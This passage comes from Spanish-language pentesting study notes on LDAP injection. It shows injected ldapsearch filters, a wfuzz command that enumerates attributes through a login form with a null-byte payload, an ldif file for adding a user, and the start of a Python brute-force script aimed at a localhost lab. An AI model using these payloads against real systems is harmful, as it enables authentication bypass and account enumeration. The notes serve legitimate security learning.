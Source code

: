 ```shell
# De alguna manera la query quedaria de la sig manera: 
ldapsearch -x -H ldap://{ip} -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin))%00'#)(userPassword=*))'
```

- ## Enumeración de atributos mediante query maliciosa

Una vez que sabemos que los campos son vulnerables a estas inyecciones, se nos podria ocurrir realizar scripts en python para enumerar usuarios, jugar con una de las [[⚒ Herramientas ⚒]] com **wfuzz** o **gobuster** para aplicar numeración de los atributos, entre otras cosas.

```shell
wfuzz -c -t 200 --hs=200 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d "user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit" "http://localhost:8888"
```

Por lo que la query maliciosa sería la sig. `admin)(FUZZ=*))%00`. 

Tambien podriamos crear usuarios (En este caso, debido que tenemos las credenciales del usuario admin de LDAP y estamos en un escenario de ejemplo), con el comando `ldapadd -x -H ldap://{ip} -D "cn=admin,dc=example,dc=org" -w {password} -f {file_ldif}`. 

Un archivo ldif tiene la definición de (en este caso) la estructura de un usuario, lo cual podria ser algo similar a lo sig.: 

```new_user.ldif
dn: uid=dobliuw,dc=example,dc=org
uid: dobliuw
cn: dobliuw
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/dobliuw
uidNumber: 14583102
gidNumber: 14564100
userPassword: dobliuw123
mail: dobliuw@example.org
description: El mejor hacker del mundo papaaaaa
telephoneNumber: +54 52345245
```

Y de esta manera podemos crear un simple script en python para enumerar usuarios: 

```python
#!/usr/bin/python3
from pwn import * 
import sys, requests, time, string, signal 

# Ctrl + C 

def ctrl_c(signal, frame):
    print("\n\n\t[!] Quiting...\n\n")
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Global vars

url = "http://localhost:8888"
characters = string.ascii_lowercase
headers = {"Content-Type":"application/x-www-form-urlencoded"}
#burp_proxy = {'http': 'http://127.0.0.1/8080'}

# Bin 

p1 = log.progress("Brute Force")
```